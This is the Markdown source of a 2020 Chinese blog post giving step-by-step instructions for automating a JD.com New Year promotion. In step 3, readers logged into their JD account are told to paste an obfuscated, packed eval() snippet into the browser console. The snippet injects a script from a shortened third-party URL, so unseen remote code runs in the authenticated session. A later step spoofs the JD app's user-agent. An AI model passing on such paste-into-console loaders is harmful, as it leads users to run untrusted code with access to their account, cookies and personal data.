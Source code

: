 ```yaml
---
layout: post
date: 2020-01-03
title: 活动线报001——京东炸年兽脚本
author: 
  name: YINUXY
  avatar: https://cdn.jsdelivr.net/gh/InfiniteYinux/cloud@2.45/avatar/avatar.png
  url: httpS://blog.yinuxy.com
categories: 活动线报



thumbnail: https://cdn.jsdelivr.net/gh/InfiniteYinux/cloud@2.26/thumbnail/Activity.png
mathjax: true


---
```


> <center><font  size = "5" color = "#1BC3FB"  face = "楷体">活动线报001——京东炸年兽脚本</font></center>

<!-- more -->

1. 使用电脑端登录一下[http://m.jd.com](http://m.jd.com)登录自己账号
2. 登陆成功后再打开如下链接：
[https://bunearth.m.jd.com/babelDiy/SGFJVMOZADGTQCZWGEYU/4PWgqmrFHunn8C38mJA712fufguU/index.html#/wxhome](https://bunearth.m.jd.com/babelDiy/SGFJVMOZADGTQCZWGEYU/4PWgqmrFHunn8C38mJA712fufguU/index.html#/wxhome)
3. 进入活动界面有按下F12进入开发者模式 点击Console下粘贴下面红色的脚本 按回车键
```
eval(function(p,a,c,k,e,d){e=function(c){return(c<a?"":e(parseInt(c/a)))+((c=c%a)>35?String.fromCharCode(c+29):c.toString(36))};if(!''.replace(/^/,String)){while(c--)d[e(c)]=k[c]||e(c);k=[function(e){return d[e]}];e=function(){return'\\w+'};c=1;};while(c--)if(k[c])p=p.replace(new RegExp('\\b'+e(c)+'\\b','g'),k[c]);return p;}('6 0=1.5(\'0\');0.7="2/3";0.4="b://c.d/8";1.9.a(0);',14,14,'script|document|text|javascript|src|createElement|var|type|ATmFCV|body|appendChild|https|6url|cn'.split('|'),0,{}))
```
![](https://cdn.jsdelivr.net/gh/InfiniteYinux/cloud@2.45/img/Activities/0001/output_1.png)
4. 接下来点击右上角三个点 选择`More tools`->`Network conditions`
![](https://cdn.jsdelivr.net/gh/InfiniteYinux/cloud@2.45/img/Activities/0001/output_2.png)
运行会出现一个ʚ福利鸭ɞ 如下图
![](https://cdn.jsdelivr.net/gh/InfiniteYinux/cloud@2.45/img/Activities/0001/output_3.png)
5. 复制下面红色的`user-Agent`粘贴到箭头1位置;再重复一次步骤3。
```
jdapp;android;8.4.2;8.0.0;;network/wifi;model/Mi Note 2;osVer/26;appBuild/71043;psn/|7;psq/1;uid/;adk/;ads/;pap/JA2015_311210|8.4.2|ANDROID 8.0.0;osv/8.0.0;pv/2.23;jdv/;ref/com.jingdong.app.mall.WebActivity;partner/huawei;apprpd/Home_Main;Mozilla/5.0 (Linux; Android 8.0.0; Mi Note 2 Build/OPR1.170623.032; wv) AppleWebKit/537.36 (KHTML, like Gecko) Version/4.0 Chrome/71.0.3578.99 Mobile Safari/537.36
```
![](https://cdn.jsdelivr.net/gh/InfiniteYinux/cloud@2.45/img/Activities/0001/output_4.png)
6. 点击左侧的所有按钮完成任务。
![](https://cdn.jsdelivr.net/gh/InfiniteYinux/cloud@2.45/img/Activities/0001/output_5.png)